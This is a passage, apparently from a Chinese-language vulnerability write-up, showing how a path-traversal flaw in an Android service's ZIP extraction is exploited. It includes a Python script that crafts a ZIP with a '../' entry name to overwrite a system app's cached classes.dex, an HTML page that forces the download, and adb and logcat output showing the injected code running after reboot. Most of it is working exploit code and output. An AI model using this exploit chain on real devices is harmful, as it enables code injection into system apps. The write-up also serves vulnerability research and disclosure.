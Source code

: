 最后，我们通过创建好的ZIP文件来对这个漏洞进行攻击：

```
> cat injectzip.py
import sys
from zipfile import ZipFile 

with ZipFile("cred.zip","w") as z:
  z.writestr(sys.argv[1],open(sys.argv[2],"rb").read())
> python injectzip.py ../../../../../../data/dalvik-cache/arm/system@app@AccessControl@AccessControl.apk@classes.dex /tmp/art/modified.oat
> zipinfo cred.zip
Archive:  cred.zip
Zip file size: 172750 bytes, number of entries: 1
?rw-------  2.0 unx   172464 b- stor 15-Nov-08 18:43 ../../../../../../data/dalvik-cache/arm/system@app@AccessControl@AccessControl.apk@classes.dex
1 file, 172464 bytes uncompressed, 172464 bytes compressed:  0.0%

```

这里有很多方法来触发漏洞，比如访问一个网页，强制让浏览器下载ZIP文件：

```
<html>
<head><script type="text/javascript">document.location="/cred.zip";</script></head>
<body></body>
</html>

```

或者为了方便方便测试，我们用adb命令发送一个文件到/sdcard/Download/:

```
> adb push cred.zip /sdcard/Download/
> adb logcat WifiCredService:V *:S
--------- beginning of main
--------- beginning of system
I/WifiCredService( 4599): File CLOSE_WRITE [/storage/emulated/0/Download/cred.zip]8
V/WifiCredService( 4599): Unzipping********** ../../../../../../data/dalvik-cache/arm/system@app@AccessControl@AccessControl.apk@classes.dex
V/WifiCredService( 4599): Extdex
V/WifiCredService( 4599): Mime Typenull

```

下次重启后，将会显示下面的信息：

```
> adb reboot; adb logcat sh4ka:V *:S
- waiting for device -
--------- beginning of system
--------- beginning of main
F/sh4ka   ( 3613): boom!

```
